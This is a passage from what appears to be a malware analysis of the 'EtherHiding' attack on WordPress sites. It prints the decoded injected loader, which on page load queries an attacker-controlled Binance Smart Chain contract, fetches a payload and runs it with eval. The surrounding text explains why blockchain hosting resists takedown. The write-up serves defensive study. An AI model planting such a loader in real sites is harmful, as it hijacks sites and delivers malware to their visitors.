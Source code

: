 The two script tags described above are the means by which threat actors take over an entire WordPress site. Attackers insert this code into the primary template of a WordPress site, often exploiting vulnerable plugins (e.g. `Balada Injector`), outdated WordPress versions, or using stolen site credentials acquired from the dark web.

The code above is just Base64 obfuscated, translated to the following being executed on every page loaded from the compromised site:

```js
// include <https://cdn.ethers.io/lib/ethers-5.2.umd.min.js>
async function load() {
    let provider = new ethers.providers.JsonRpcProvider("https://bsc-dataseed1.binance.org/"),
        signer = provider.getSigner(),
        address = "0x7f36D9292e7c70A204faCC2d255475A861487c60",
        ABI = [
            { inputs: [{ internalType: "string", .......},
            { inputs: [], name: "get", ......},
            { inputs: [], name: "link", ....... },
        ],
        contract = new ethers.Contract(address, ABI, provider),
        link = await contract.get();
    eval(atob(link));
}
window.onload = load;
```

This part of the malicious code queries the [BSC BlockChain](https://www.bnbchain.org/en/smartChain). It creates a new contract instance by initializing it with the provided, attacker-controlled, **blockchain address**. It also provides the **ABI (Application Binary Interface)** that declares the contract's functions and structure. The function that is called is `get()`, and it will basically query the contract to return a specified payload to be later decoded and evaluated as JavaScript code with the `eval()` function.

<p align="center"><img src="https://github.com/chartingshow/crypto-firewall/blob/master/assets/images/ether-hiding/3.jpg" alt="EtherHiding"></p>
<p align="center"><strong>The attack flow - from querying the BlockChain to total site defacing and malware download</strong></p>

### Smart Contracts? Code on the BlockChain?

OK wait, what is this BSC? And what are those contracts anyhow?

BSC, or Binance Smart Chain, launched three years ago, is Binance's answer to Ethereum, designed to run decentralized apps and "smart contracts" more efficiently. While Ethereum is a publicly owned blockchain with cryptocurrency and contracts capabilities, BSC is owned by Binance and focuses on contracts: coded agreements that execute actions automatically when certain conditions are met. These contracts offer innovative ways to build applications and processes. Due to the publicly accessible and unchangeable nature of the blockchain, code can be hosted "on-chain" without the ability for a takedown.

**This is what we see here in this attack - malicious code is hosted and served in a manner that can't be blocked.** Unlike hosting it on a Cloudflare Worker service as was mitigated on the earlier variant. Truly, it is a double-edged sword in decentralized tech.

### The Malicious Smart Contract - Analyzed
